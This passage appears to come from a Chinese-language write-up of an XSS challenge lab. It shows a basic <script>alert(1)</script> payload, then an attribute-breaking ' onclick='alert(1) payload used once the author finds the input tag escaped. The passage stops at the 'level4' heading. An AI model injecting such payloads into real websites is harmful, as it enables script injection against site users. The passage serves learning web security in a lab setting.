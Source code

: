 标准流程：

```
<script>alert(1)</script>
```

查看源代码

![image-20220116110850591](https://github.com/YTR1020/Trees/blob/main/Screenshot%20or%20pictures/HW/Attack/03%20XSS%E6%8C%91%E6%88%98.assets/image-20220116110850591-16423025314891.png)

发现源代码input标签里也有转化：

那么可以考虑`onclick——点击搜索`：

![image-20220116110951521](https://github.com/YTR1020/Trees/blob/main/Screenshot%20or%20pictures/HW/Attack/03%20XSS%E6%8C%91%E6%88%98.assets/image-20220116110951521.png)

```
' onclick='alert(1)
```



## level4
